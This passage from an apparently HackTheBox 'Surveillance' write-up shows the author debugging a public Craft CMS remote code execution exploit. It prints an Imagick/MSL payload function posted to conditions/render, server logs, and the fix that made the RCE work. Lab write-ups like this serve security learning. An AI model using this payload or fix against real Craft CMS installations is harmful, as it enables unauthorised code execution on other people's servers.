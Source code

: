 When reading the exploit, it seems to proxy requests through local port 8080.

```python
def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

# TRUNCATED
```

I opened a HTTP Server on port 8080, and it returned some errors when the exploit was run:

```
$ python3 -m http.server 8080                       
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [09/Dec/2023 22:24:21] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:21] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:21] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:21] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:57] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:57] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:57] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:57] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
```

It didn't make sense to have a proxy in the first place, so I removed that since I could not find a good explanation of why it was included (probably Burpsuite testing by the researcher). After removing that, the script still did not work. 

I troubleshooted this by printing contents of variables within the script (as you usually do...) and I found that the `upload_tmp_dir` variable was being incorrectly checked:

```
$ python3 rce.py http://surveillance.htb
[-] Get temporary folder and document root ...
<i>no value</i>

upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
print(upload_tmp_dir)
```

Seems that it was being updated wrongly, and the `if` condition wasn't checking the value properly since it was being set to `<i> no value </i>` instead of `no value`. After replacing that, the RCE worked.

![](../../.gitbook/assets/htb-surveillance-image-2.png)
